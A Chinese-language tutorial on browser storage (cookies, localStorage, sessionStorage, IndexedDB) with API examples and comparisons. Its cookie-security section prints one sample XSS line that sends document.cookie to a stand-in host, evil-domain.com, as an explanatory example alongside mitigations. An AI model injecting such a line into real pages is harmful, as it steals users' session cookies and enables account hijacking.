



# 浏览器存储有哪些？

- Cookie
- LocalStorage
- SessionStorage
- IndexDB

# Cookie

### 1.Cookie 的来源

**Cookie 的本职工作并非本地存储，而是“维持状态”。**
因为 **HTTP 协议是无状态的，HTTP 协议自身不对请求和响应之间的通信状态进行保存**，通俗来说，服务器不知道用户上一次做了什么，这严重阻碍了交互式 Web 应用程序的实现。在典型的网上购物场景中，用户浏览了几个页面，买了一盒饼干和两瓶饮料。最后结帐时，由于 HTTP 的无状态性，不通过额外的手段，服务器并不知道用户到底买了什么，于是就诞生了 Cookie。它就是用来绕开 HTTP 的无状态性的“额外手段”之一。服务器可以设置或读取 Cookies 中包含信息，借此维护用户跟服务器会话中的状态。

我们可以把 Cookie 理解为一个存储在浏览器里的一个小小的文本文件，它附着在 HTTP 请求上，在浏览器和服务器之间“飞来飞去”。它可以携带用户信息，当服务器检查 Cookie 的时候，便可以获取到客户端的状态。

在刚才的购物场景中，当用户选购了第一项商品，服务器在向用户发送网页的同时，还发送了一段 Cookie，记录着那项商品的信息。当用户访问另一个页面，浏览器会把 Cookie 发送给服务器，于是服务器知道他之前选购了什么。用户继续选购饮料，服务器就在原来那段 Cookie 里追加新的商品信息。结帐时，服务器读取发送来的 Cookie 就行了。

### 2.什么是 Cookie 以及应用场景

HTTP Cookie（也叫 Web Cookie 或浏览器 Cookie）是服务器发送到用户浏览器并保存在本地的一小块数据，它会在浏览器下次向同一服务器再发起请求时被携带并发送到服务器上。通常，它用于告知服务端两个请求是否来自同一浏览器，如保持用户的登录状态。Cookie 使基于无状态的 HTTP 协议记录稳定的状态信息成为了可能。
Cookie 是一个请求首部，其中含有先前由服务器通过 Set-Cookie 首部投放并存储到客户端的 HTTP cookies。
**Cookie 指某些网站为了辨别用户身份而储存在用户本地终端上的数据(通常经过加密)。 cookie 是服务端生成，客户端进行维护和存储**。通过 cookie,可以让服务器知道请求是来源哪个客户端，就可以进行客户端状态的维护，比如登陆后刷新，请求头就会携带登陆时 response header 中的 set-cookie,Web 服务器接到请求时也能读出 cookie 的值，根据 cookie 值的内容就可以判断和恢复一些用户的信息状态。

  <!-- 典型的应用场景有：

  - 记住密码，下次自动登录。
  - 购物车功能。
  - 记录用户浏览数据，进行商品（广告）推荐。 -->

Cookie 主要用于以下三个方面：

- 会话状态管理（如用户登录状态、购物车、游戏分数或其它需要记录的信息）
- 个性化设置（如用户自定义设置、主题等）
- 浏览器行为跟踪（如跟踪分析用户行为等）

### 3.Cookie 的原理以及如何生成

第一次访问网站的时候，浏览器发出请求，服务器响应请求后，会在响应头里面添加一个 Set-Cookie 选项，将 cookie 放入到响应请求中，在浏览器第二次发请求的时候，会通过 Cookie 请求头部将 Cookie 信息发送给服务器，服务端会辨别用户身份，另外，Cookie 的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

Cookie 的生成方式主要有两种：

- 生成方式一：http response header 中的 set-cookie

我们可以通过响应头里的 Set-Cookie 指定要存储的 Cookie 值。默认情况下，domain 被设置为设置 Cookie 页面的主机名，我们也可以手动设置 domain 的值。
服务器通过该头部告知客户端保存 Cookie 信息。

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
[页面内容]

```

现在，对该服务器发起的每一次新请求，浏览器都会将之前保存的 Cookie 信息通过 Cookie 请求头部再发送给服务器。

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: yummy_cookie=choco; tasty_cookie=strawberry

```

##### 会话期 Cookie

会话期 Cookie 是最简单的 Cookie：浏览器关闭之后它会被自动删除，也就是说它仅在会话期内有效。会话期 Cookie 不需要指定过期时间（Expires）或者有效期（Max-Age）。需要注意的是，有些浏览器提供了会话恢复功能，这种情况下即使关闭了浏览器，会话期 Cookie 也会被保留下来，就好像浏览器从来没有关闭一样。

##### 持久性 Cookie

和关闭浏览器便失效的会话期 Cookie 不同，持久性 Cookie 可以指定一个特定的过期时间（Expires）或有效期（Max-Age）。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;
```

**Tips:** 当 Cookie 的过期时间被设定时，设定的日期和时间只与客户端相关，而不是服务端。

#### Cookie 的 Secure 和 HttpOnly 标记

HttpOnly 不支持读写，浏览器不允许脚本操作 document.cookie 去更改 cookie， 所以为避免跨域脚本 (XSS) 攻击，通过 JavaScript 的 Document.cookie API 无法访问带有 HttpOnly 标记的 Cookie，它们只应该发送给服务端。如果包含服务端 Session 信息的 Cookie 不想被客户端 JavaScript 脚本调用，那么就应该为其设置 HttpOnly 标记。

```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

标记为 Secure 的 Cookie 只应通过被 HTTPS 协议加密过的请求发送给服务端。但即便设置了 Secure 标记，敏感信息也不应该通过 Cookie 传输，因为 Cookie 有其固有的不安全性，Secure 标记也无法提供确实的安全保障。从 Chrome 52 和 Firefox 52 开始，不安全的站点（http:）无法使用 Cookie 的 Secure 标记。

- 生成方式二：js 中可以通过 document.cookie 可以读写 cookie，以键值对的形式展示

例如我们在百度首页控制台输入以下三句代码，便可以在 Chrome 的 Application 面板查看生成的 cookie:

```
document.cookie="name=hello";
document.cookie="age=18";
document.cookie="domain=google.com;gender=male"
```


查看结果


从上图中我们可以得出：

##### Cookie 的作用域

Domain 和 Path 标识定义了 Cookie 的作用域：即 Cookie 应该发送给哪些 URL。
Domain 标识指定了哪些主机可以接受 Cookie。如果不指定，默认为当前文档的主机（不包含子域名）。如果指定了 Domain，则一般包含子域名。

**Domain 标识指定了哪些域名可以接受 Cookie。如果没有设置 domain，就会自动绑定到执行语句的当前域**。 如果设置为”.google.com”,则所有以”google.com”结尾的域名都可以访问该 Cookie，所以在百度首页上读取不到第三条代码存储 Cookie 值。

当将域名设置为当前执行语句的域名时，就可以看见该条记录

查看结果


### 4.Cookie 的缺陷

- Cookie 不够大
  Cookie 的大小限制在 4KB 左右，对于复杂的存储需求来说是不够用的。当 Cookie 超过 4KB 时，它将面临被裁切的命运。这样看来，Cookie 只能用来存取少量的信息。此外很多浏览器对一个站点的 cookie 个数也是有限制的。
  这里需注意：各浏览器的 cookie **每一个 name=value 的 value 值大概在 4k**，所以 4k 并不是一个域名下所有的 cookie 共享的,而是一个 name 的大小。

- 过多的 Cookie 会带来巨大的性能浪费
  Cookie 是紧跟域名的。**同一个域名下的所有请求，都会携带 Cookie**。大家试想，如果我们此刻仅仅是请求一张图片或者一个 CSS 文件，我们也要携带一个 Cookie 跑来跑去（关键是 Cookie 里存储的信息并不需要），这是一件多么劳民伤财的事情。Cookie 虽然小，请求却可以有很多，随着请求的叠加，这样的不必要的 Cookie 带来的开销将是无法想象的。
  cookie 是用来维护用户信息的，而域名(domain)下所有请求都会携带 cookie，但对于静态文件的请求，携带 cookie 信息根本没有用，此时可以通过 cdn（存储静态文件的）的域名和主站的域名分开来解决。

- 安全问题
  由于在 HTTP 请求中的 Cookie 是明文传递的，所以安全性成问题，除非用 HTTPS。

### 5.Cookie 与安全

**tips:** 当机器处于不安全环境时，切记不能通过 HTTP Cookie 存储、传输敏感信息

- 会话劫持和跨站脚本攻击（XSS）
  在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法有利用社会工程学攻击和利用应用程序漏洞进行 XSS 攻击。

```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

- 跨站请求伪造（CSRF）
  比如在不安全聊天室或论坛上的一张图片，当你访问这张图片，它实际上是一个给你银行服务器发送提现的请求：
  当你打开含有了这张图片的 HTML 页面时，如果你之前已经登录了你的银行帐号并且 Cookie 仍然有效（还没有其它验证步骤），你银行里的钱很可能会被自动转走。

```

```

有一些方法可以阻止此类事件的发生：

- 对用户输入进行过滤来阻止 XSS；
- 任何敏感操作都需要确认；
- 用于敏感信息的 Cookie 只能拥有较短的生命周期；

为了弥补 Cookie 的局限性，让“专业的人做专业的事情”，Web Storage 出现了。
**HTML5 中新增了本地存储的解决方案----Web Storage，它分成两类：sessionStorage 和 localStorage。**这样有了 WebStorage 后，cookie 能只做它应该做的事情了——作为客户端与服务器交互的通道，保持客户端状态。

# LocalStorage

## 1.LocalStorage 的特点

- 保存的数据长期存在，下一次访问该网站的时候，网页可以直接读取以前保存的数据。
- 大小为 5M 左右
- 仅在客户端使用，不和服务端进行通信
- 接口封装较好

## 2.存入/读取/删除数据

localStorage 保存的数据，以“键值对”的形式存在。也就是说，每一项数据都有一个键名和对应的值。所有的数据都是以文本格式保存。 存入数据使用 setItem 方法。它接受两个参数，第一个是键名，第二个是保存的数据。 localStorage.setItem("key","value");读取数据使用 getItem 方法。它只有一个参数，就是键名。 var valueLocal=localStorage.getItem("key");

- 存入数据
  **localStorage.setItem("key", "value")**
  该方法接受一个键名和值作为参数，将会把键值对添加到存储中，如果键名存在，则更新其对应的值。

```
<script>
if (window.localStorage) {
  localStorage.setItem("name", "hello");
  localStorage.setItem("age", 18);
}
</script>
```

- 读取数据
  **localStorage.getItem("key")**
  该方法接受一个键名作为参数，返回键名对应的值
  只需要传入 key 即可

```
var name = localStorage.getItem("name");
var age = localStorage.getItem("age");
console.log(name) // hello
console.log(age) // 18
```

- 删除数据
  **localStorage.removeItem("key");**
  该方法接受一个键名作为参数，并把该键名从存储中删除。
  只需要传入 key 即可

```
localStorage.removeItem("name");
localStorage.removeItem("age");
```

- 移除所有
  **localStorage.clear();**
  调用该方法会清空存储中的所有键名。
  不需要传入参数

```
localStorage.clear();
```

## 3.使用场景

LocalStorage 在存储方面没有什么特别的限制，理论上 Cookie 无法胜任的、可以用简单的键值对来存取的数据存储任务，都可以交给 LocalStorage 来做。

这里给大家举个例子，考虑到 LocalStorage 的特点之一是持久，有时我们更倾向于用它来存储一些内容稳定的资源。比如图片内容丰富的电商网站会用它来存储 Base64 格式的图片字符串：

# SessionStorage

sessionStorage 保存的数据用于浏览器的一次会话，当会话结束（通常是该窗口关闭），数据被清空；sessionStorage 特别的一点在于，即便是相同域名下的两个页面，只要它们不在同一个浏览器窗口中打开，那么它们的 sessionStorage 内容便无法共享；localStorage 在所有同源窗口中都是共享的；cookie 也是在所有同源窗口中都是共享的。除了保存期限的长短不同，SessionStorage 的属性和方法与 LocalStorage 完全一样。

## 1.sessionStorage 的特点

- 会话级别的浏览器存储
- 大小为 5M 左右
- 仅在客户端使用，不和服务端进行通信
- 接口封装较好

## 2.存入/读取/删除数据

sessionStorage 保存的数据，以“键值对”的形式存在。也就是说，每一项数据都有一个键名和对应的值。所有的数据都是以文本格式保存。 存入数据使用 setItem 方法。它接受两个参数，第一个是键名，第二个是保存的数据。 sessionStorage.setItem("key","value");读取数据使用 getItem 方法。它只有一个参数，就是键名。 var valueLocal=sessionStorage.getItem("key");

- 存入数据
  **sessionStorage.setItem("key", "value")**
  该方法接受一个键名和值作为参数，将会把键值对添加到存储中，如果键名存在，则更新其对应的值。

```
<script>
if (window.sessionStorage) {
  sessionStorage.setItem("name", "hello");
  sessionStorage.setItem("age", 18);
}
</script>
```

- 读取数据
  **sessionStorage.getItem("key")**
  该方法接受一个键名作为参数，返回键名对应的值
  只需要传入 key 即可

```
var name = sessionStorage.getItem("name");
var age = sessionStorage.getItem("age");
console.log(name) // hello
console.log(age) // 18

```

- 删除数据
  **sessionStorage.removeItem("key");**
  该方法接受一个键名作为参数，并把该键名从存储中删除。
  只需要传入 key 即可

```
sessionStorage.removeItem("name");
sessionStorage.removeItem("age");
```

- 移除所有
  **sessionStorage.clear();**
  调用该方法会清空存储中的所有键名。
  不需要传入参数

```
sessionStorage.clear();
```

## 3.使用场景

sessionStorage 更适合用来存储生命周期和它同步的会话级别的信息。这些信息只适用于当前会话，当你开启新的会话时，它也需要相应的更新或释放。比如微博的 sessionStorage 就主要是存储你本次会话的浏览足迹

## **sessionStorage 、localStorage 和 cookie 之间的区别**

- 共同点：都是保存在浏览器端，且都遵循同源策略。
- 不同点：在于生命周期与作用域的不同

作用域：localStorage 只要在相同的协议、相同的主机名、相同的端口下，就能读取/修改到同一份 localStorage 数据。sessionStorage 比 localStorage 更严苛一点，除了协议、主机名、端口外，还要求在同一窗口（也就是浏览器的标签页）下

生命周期：localStorage 是持久化的本地存储，存储在其中的数据是永远不会过期的，使其消失的唯一办法是手动删除；而 sessionStorage 是临时性的本地存储，它是会话级别的存储，当会话结束（页面被关闭）时，存储内容也随之被释放。

Web Storage 是一个从定义到使用都非常简单的东西。它使用键值对的形式进行存储，这种模式有点类似于对象，却甚至连对象都不是——它只能存储字符串，要想得到对象，我们还需要先对字符串进行一轮解析。

说到底，Web Storage 是对 Cookie 的拓展，它只能用于存储少量的简单数据。当遇到大规模的、结构复杂的数据时，Web Storage 也爱莫能助了。这时候我们就要清楚我们的终极大 boss——IndexedDB！

# IndexDB

通俗地说，IndexedDB 就是**浏览器提供的本地数据库**，它可以被网页脚本创建和操作。IndexedDB 允许储存大量数据，提供查找接口，还能建立索引。这些都是 LocalStorage 所不具备的。就数据库类型而言，IndexedDB 不属于关系型数据库（不支持 SQL 查询语句），更接近 NoSQL 数据库。
IndexedDB 是一种低级 API，**用于客户端存储大量结构化数据(包括文件和 blobs)**。该 API 使用索引来实现对该数据的高性能搜索。IndexedDB 是一个运行在浏览器上的非关系型数据库。既然是数据库了，那就不是 5M、10M 这样小打小闹级别了。理论上来说，IndexedDB 是没有存储上限的（一般来说不会小于 250M）。它不仅可以存储字符串，还可以存储二进制数据。

## 1.IndexedDB 的特点

- 键值对储存。
  IndexedDB 内部采用对象仓库（object store）存放数据。所有类型的数据都可以直接存入，包括 JavaScript 对象。对象仓库中，数据以"键值对"的形式保存，每一个数据记录都有对应的主键，主键是独一无二的，不能有重复，否则会抛出一个错误。

- 异步
  IndexedDB 操作时不会锁死浏览器，用户依然可以进行其他操作，这与 LocalStorage 形成对比，后者的操作是同步的。异步设计是为了防止大量数据的读写，拖慢网页的表现。

- 支持事务。
  IndexedDB 支持事务（transaction），这意味着一系列操作步骤之中，只要有一步失败，整个事务就都取消，数据库回滚到事务发生之前的状态，不存在只改写一部分数据的情况。

- 同源限制
  IndexedDB 受到同源限制，每一个数据库对应创建它的域名。网页只能访问自身域名下的数据库，而不能访问跨域的数据库。

- 储存空间大
  IndexedDB 的储存空间比 LocalStorage 大得多，一般来说不少于 250MB，甚至没有上限。

- 支持二进制储存。
  IndexedDB 不仅可以储存字符串，还可以储存二进制数据（ArrayBuffer 对象和 Blob 对象）。

## 2.基本概念

IndexedDB 是一个比较复杂的 API，涉及不少概念。它把不同的实体，抽象成一个个对象接口。学习这个 API，就是学习它的各种对象接口。

- 数据库：IDBDatabase 对象
  数据库是一系列相关数据的容器。每个域名（严格的说，是协议 + 域名 + 端口）都可以新建任意多个数据库。
  IndexedDB 数据库有版本的概念。同一个时刻，只能有一个版本的数据库存在。如果要修改数据库结构（新增或删除表、索引或者主键），只能通过升级数据库版本完成。

- 对象仓库：IDBObjectStore 对象
  每个数据库包含若干个对象仓库（object store）。它类似于关系型数据库的表格。
- 数据记录
  对象仓库保存的是数据记录。每条记录类似于关系型数据库的行，但是只有主键和数据体两部分。主键用来建立默认的索引，必须是不同的，否则会报错。主键可以是数据记录里面的一个属性，也可以指定为一个递增的整数编号。
  ```
  { id: 1, text: 'foo' }
  ```
- 索引： IDBIndex 对象
  为了加速数据的检索，可以在对象仓库里面，为不同的属性建立索引。
- 事务： IDBTransaction 对象
  数据记录的读写和删改，都要通过事务完成。事务对象提供 error、abort 和 complete 三个事件，用来监听操作结果。
- 操作请求：IDBRequest 对象
- 指针： IDBCursor 对象
- 主键集合：IDBKeyRange 对象

## 3.IndexedDB 的常见操作

在 IndexedDB 大部分操作并不是我们常用的调用方法，返回结果的模式，而是请求——响应的模式。
建立打开 IndexedDB ---- **window.indexedDB.open("testDB")**

操作流程：

#### 3.1.打开数据库

使用 IndexedDB 的第一步是打开数据库，使用 indexedDB.open()方法。

**window.indexedDB.open(databaseName, version)**
这个方法接受两个参数，第一个参数是字符串，表示数据库的名字。如果指定的数据库不存在，就会新建数据库。第二个参数是整数，表示数据库的版本。如果省略，打开已有数据库时，默认为当前版本；新建数据库时，默认为 1。

```
var request = window.indexedDB.open("testDB", version);
```

indexedDB.open()方法返回一个 IDBOpenDBRequest 对象。这个对象通过三种事件 error、success、upgradeneeded，处理打开数据库的操作结果。



这条指令并不会返回一个 DB 对象的句柄，我们得到的是一个 **IDBOpenDBRequest 对象**，而我们希望得到的 DB 对象在其 result 属性中

除了 result，IDBOpenDBRequest 接口定义了几个重要属性:

onerror: 请求失败的回调函数句柄

onsuccess:请求成功的回调函数句柄

onupgradeneeded:请求数据库版本变化句柄

- error 事件表示打开数据库失败。

```
request.onerror = function (event) {
  console.log('数据库打开报错');
};
```

- success 事件表示成功打开数据库。

```
var db;
request.onsuccess = function (event) {
  db = request.result;
  console.log('数据库打开成功');
};
```

这时，通过 request 对象的 result 属性拿到数据库对象。

- upgradeneeded 事件

如果指定的版本号，大于数据库的实际版本号，就会发生数据库升级事件 upgradeneeded。

```
var db;
request.onupgradeneeded = function (event) {
  db = event.target.result;
}
```

这时通过事件对象的 target.result 属性，拿到数据库实例。

#### 3.2.新建数据库

**createObjectStore**
新建数据库与打开数据库是同一个操作。如果指定的数据库不存在，就会新建。不同之处在于，后续的操作主要在 upgradeneeded 事件的监听函数里面完成，因为这时版本从无到有，所以会触发这个事件。

通常，新建数据库以后，第一件事是新建对象仓库（即新建表）。

```
request.onupgradeneeded = function(event) {
  db = event.target.result;
  var objectStore = db.createObjectStore('person', { keyPath: 'id' });
}
```

上面代码中，数据库新建成功以后，新增一张叫做 person 的表格，主键是 id。
更好的写法是先判断一下，这张表格是否存在，如果不存在再新建。

```
request.onupgradeneeded = function (event) {
  db = event.target.result;
  var objectStore;
  if (!db.objectStoreNames.contains('person')) {
    objectStore = db.createObjectStore('person', { keyPath: 'id' });
  }
}
```

主键（key）是默认建立索引的属性。比如，数据记录是{ id: 1, name: '张三' }，那么 id 属性可以作为主键。主键也可以指定为下一层对象的属性，比如{ foo: { bar: 'baz' } }的 foo.bar 也可以指定为主键。

如果数据记录里面没有合适作为主键的属性，那么可以让 IndexedDB 自动生成主键。

```
var objectStore = db.createObjectStore(
  'person',
  { autoIncrement: true }
);
```

上面代码中，指定主键为一个递增的整数。

新建对象仓库以后，下一步可以新建索引。

```
request.onupgradeneeded = function(event) {
  db = event.target.result;
  var objectStore = db.createObjectStore('person', { keyPath: 'id' });
  objectStore.createIndex('name', 'name', { unique: false });
  objectStore.createIndex('email', 'email', { unique: true });
}
```

上面代码中，**IDBObject.createIndex()**的三个参数分别为索引名称、索引所在的属性、配置对象（说明该属性是否包含重复的值）。

#### 3.3.新增数据

新增数据指的是向对象仓库写入数据记录。这需要通过事务完成。

```
function add() {
  var request = db.transaction(['person'], 'readwrite')
    .objectStore('person')
    .add({ id: 1, name: '张三', age: 24, email: 'zhangsan@example.com' });

  request.onsuccess = function (event) {
    console.log('数据写入成功');
  };

  request.onerror = function (event) {
    console.log('数据写入失败');
  }
}

add();
```

上面代码中，写入数据需要新建一个事务。新建时必须指定表格名称和操作模式（"只读"或"读写"）。新建事务以后，通过 **IDBTransaction.objectStore(name)**方法，拿到 IDBObjectStore 对象，再通过表格对象的 add()方法，向表格写入一条记录。

写入操作是一个异步操作，通过监听连接对象的 success 事件和 error 事件，了解是否写入成功。

#### 3.4.读取数据

读取数据也是通过事务完成。

```
function read() {
   var transaction = db.transaction(['person']);
   var objectStore = transaction.objectStore('person');
   var request = objectStore.get(1);

   request.onerror = function(event) {
     console.log('事务失败');
   };

   request.onsuccess = function( event) {
      if (request.result) {
        console.log('Name: ' + request.result.name);
        console.log('Age: ' + request.result.age);
        console.log('Email: ' + request.result.email);
      } else {
        console.log('未获得数据记录');
      }
   };
}

read();
```

上面代码中，**objectStore.get()**方法用于读取数据，参数是主键的值。

#### 3.5.遍历数据

遍历数据表格的所有记录，要使用指针对象 IDBCursor。

```
function readAll() {
  var objectStore = db.transaction('person').objectStore('person');

   objectStore.openCursor().onsuccess = function (event) {
     var cursor = event.target.result;

     if (cursor) {
       console.log('Id: ' + cursor.key);
       console.log('Name: ' + cursor.value.name);
       console.log('Age: ' + cursor.value.age);
       console.log('Email: ' + cursor.value.email);
       cursor.continue();
    } else {
      console.log('没有更多数据了！');
    }
  };
}

readAll();
```

上面代码中，新建指针对象的**openCursor()方法**是一个异步操作，所以要监听 success 事件。

#### 3.6.更新数据

更新数据要使用**IDBObject.put()方法**。

```
function update() {
  var request = db.transaction(['person'], 'readwrite')
    .objectStore('person')
    .put({ id: 1, name: '李四', age: 35, email: 'lisi@example.com' });

  request.onsuccess = function (event) {
    console.log('数据更新成功');
  };

  request.onerror = function (event) {
    console.log('数据更新失败');
  }
}

update();
```

上面代码中，put()方法自动更新了主键为 1 的记录。

#### 3.7.删除数据

**IDBObjectStore.delete()方法**用于删除记录。

```
function remove() {
  var request = db.transaction(['person'], 'readwrite')
    .objectStore('person')
    .delete(1);

  request.onsuccess = function (event) {
    console.log('数据删除成功');
  };
}

remove();
```

#### 3.8.使用索引

索引的意义在于，可以让你搜索任意字段，也就是说从任意字段拿到数据记录。如果不建立索引，默认只能搜索主键（即从主键取值）。

假定新建表格的时候，对 name 字段建立了索引。

```
objectStore.createIndex('name', 'name', { unique: false });
```

现在，就可以从 name 找到对应的数据记录了。

```
var transaction = db.transaction(['person'], 'readonly');
var store = transaction.objectStore('person');
var index = store.index('name');
var request = index.get('李四');

request.onsuccess = function (e) {
  var result = e.target.result;
  if (result) {
    // ...
  } else {
    // ...
  }
}
```

### 关闭 IndexDB

**indexdb.close()**

## 3.WebStorage、cookie 和 IndexedDB 之间的区别

| 特性         | cookie                                       | localstorage             | sessionstorage | indexDB                  |
| ------------ | :------------------------------------------- | :----------------------- | :------------- | :----------------------- |
| 数据生命周期 | 一般有服务器生成，可以设置过期时间           | 除非被清除，否则一直存在 | 页面关闭就清理 | 除非被清除，否则一直存在 |
| 数据存储大小 | 4K                                           | 5M                       | 5M             | 无限                     |
| 与服务端通信 | 每次都会携带在 header 里，对于性能有很大影响 | 不参与                   | 不参与         | 不参与                   |

从上表可以看到，cookie 已经不建议用于存储。如果没有大量数据存储需求的话，可以使用 localStorage 和 sessionStorage 。对于不怎么改变的数据尽量使用 localStorage 存储，否则可以用 sessionStorage 存储。

# 小结

正是浏览器存储、缓存技术的出现和发展，为我们的前端应用带来了无限的转机。近年来基于存储、缓存技术的第三方库层出不绝，此外还衍生出了 PWA 这样优秀的 Web 应用模型。总结下本文几个核心观点：

- Cookie 的本职工作并非本地存储，而是“维持状态”
- Web Storage 是 HTML5 专门为浏览器存储而提供的数据存储机制，不与服务端发生通信
- IndexedDB 用于客户端存储大量结构化数据
